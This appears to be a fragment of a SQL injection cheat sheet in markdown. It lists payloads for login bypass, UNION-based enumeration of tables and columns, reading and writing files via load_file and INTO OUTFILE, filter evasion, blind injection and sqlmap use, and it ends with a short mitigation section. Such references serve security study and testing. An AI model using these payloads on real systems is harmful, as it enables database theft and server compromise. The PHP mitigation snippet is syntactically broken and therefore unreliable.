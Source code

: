 * Try to login using SQL statements or symbols (eg. **'** or **%27**)
* Comment the rest of the query using **#** , **%23** , **--** , **/*** , **//** 
* If you think there is some kind of client side filtering, use Burp Proxy
* To read database information:
  * **Order By _n_** - Iterate over **n** to find out the number of columns in table
  * **Union Select 1,2,3,...,n** - Allows you to check which columns are getting displayed by the site
  * **database()** - Name of the database
  * **user()** - User of the server
  * **version()** - OS version of the server
  * **load_file('_path_')** - Load local file
  * **Union Select null, _code_, null Into Outfile '_filePath_'** - Write into file (useful with local file vuln)
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables** - Name of all the tables in the SQL
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables Where table_schema = "owasp10"** - Name of all the tables in owasp10 database
  * **Union Select 1, column_name, null, null, 5 From information_schema.columns Where table_name = "accounts"** - Name of all the columns in accounts table
  * If site doesnt iterate through all results from the query use **limit**:
    * **Union Select table_name,2 From information_schema.tables Limit 1,2** - Iterate through results 1 by 1.
* Use Burp Decoder to encode query to HEX (0x...)
* Use **+** instead of SPACE
* Use different cases to avoid filters
* In a Blind SQL Injection, try to send a true and false value to see how the page behaves
  * True - **and 1=1** or **order by 1**
  * False - ** and 1=0** or **order by 10000000**

### Auto SQL Injection
* **$ sqlmap -u _"URL"_** - Find SQL injections automatically
* We can get shell with **SQLMap**

### Mitigation
* [Fast way](https://github.com/KevinSantos/Hacking/blob/master/sqlInjectionMitigation.php)
* Best way:
   ```php
   <?php
   $hackerInput = "admin' union select #";

   prepare("SELECT * FROM accounts WHERE username = ?");
   execute(array('$hackerInput');
   ?>
   ```
